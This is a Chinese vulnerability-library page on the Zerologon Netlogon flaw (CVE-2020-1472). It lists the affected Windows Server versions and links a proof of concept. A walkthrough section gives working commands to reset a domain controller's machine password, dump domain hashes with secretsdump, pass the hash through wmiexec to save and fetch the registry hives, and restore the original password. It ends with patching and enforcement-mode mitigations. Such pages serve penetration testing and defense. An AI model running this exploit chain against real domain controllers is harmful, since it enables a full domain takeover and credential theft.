 ```yaml
---
title: 'Netlogon 特权提升漏洞（CVE-2020-1472）'
date: Tue, 15 Sep 2020 00:55:05 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 背景

NetLogon特权提升漏洞（CVE-2020-1472）的详细信息与验证脚本，导致漏洞风险骤然提升。未经身份验证的攻击者通过NetLogon远程协议（MS-NRPC）建立与域控制器连接的 安全通道时，可利用此漏洞获取域管理员访问权限。此漏洞为微软8月补丁更新时披露，CVSS评分为10，影响广泛，请相关用户尽快采取措施进行防护。

#### 受影响版本

Windows Server 2008 R2 for x64-based Systems Service Pack 1 Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation) Windows Server 2012 Windows Server 2012 (Server Core installation) Windows Server 2012 R2 Windows Server 2012 R2 (Server Core installation) Windows Server 2016 Windows Server 2016 (Server Core installation) Windows Server 2019 Windows Server 2019 (Server Core installation) Windows Server, version 1903 (Server Core installation) Windows Server, version 1909 (Server Core installation) Windows Server, version 2004 (Server Core installation)

#### 漏洞检测

poc 链接：`https://pan.baidu.com/s/1_RpVEA4W_Lo_ildh-FdqKQ` 提取码：tilx 受影响版本主机，检测验证结果如下： ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/微信图片_20200915085231.jpg)

#### 漏洞利用

1.重置密码，获取域内所有的用户hash，利用exp：`https://github.com/dirkjanm/CVE-2020-1472````
py -3 cve-2020-1472-exploit.py dc-01 192.169.1.253 
```2.Dump域控制上的hash```
py -3 secretsdump.py xxxxx/dc-01\$@192.168.1.253 -no-pass 
```3.利用获取到的管理员hash远程连接导出sam数据库中原来的计算机hash```
py -3 wmiexec.py -hashes [hash] xxxx/administrator@192.168.1.253
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg saveHKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del /f system.save
del /f  sam.save
del /f security.save
exit

py -3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL 
从而获取到MACHINE.ACC：xxxxxxxxxxxxxxxxxxx 
```4.恢复ntds.dit中的计算机hash并验证：`https://github.com/risksense/zerologon` 需要注意的是最后的hash使用的是上图获取到的MACHINE.ACC”:”后面的部分。```
py -3 reinstall_original_pw.py dc-01 192.168.253.163 [上一步获取到的hash] 
```5.最后验证密码是否已经改回去，注意结尾是刀乐符。```
py -3 secretsdump xxxx/administrator:admin123#@\!..@192.168.1.253 -just-dc-user dc-01\刀乐符 
```

#### 漏洞防护

1)官方升级 目前微软官方已针对受支持的产品版本发布了修复此漏洞的安全补丁，强烈建议受影响用户尽快安装补丁进行防护，官方下载链接： `https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472` 2）其他防护措施 在安装更新补丁后，还可通过部署域控制器 (DC) 强制模式以免受到该漏洞影响： 请参考官方文档进行配置《如何管理与 CVE-2020-1472 相关的 Netlogon 安全通道连接的更改》： `https://support.microsoft.com/zh-cn/help/4557222/how-to-manage-the-changes-in-netlogon-secure-channel-connections-assoc`

#### 注意事项

由于网络问题、计算机环境问题等原因，Windows Update的补丁更新可能出现失败。用户在安装补丁后，应及时检查补丁是否成功更新。 补丁更新确认： 右键点击Windows图标，选择“设置(N)”，选择“更新和安全”-“Windows更新”，查看该页面上的提示信息，也可点击“查看更新历史记录”查看历史更新情况。 针对未成功安装的更新，可点击更新名称跳转到微软官方下载页面，建议用户点击该页面上的链接，转到“Microsoft更新目录”网站下载独立程序包并安装。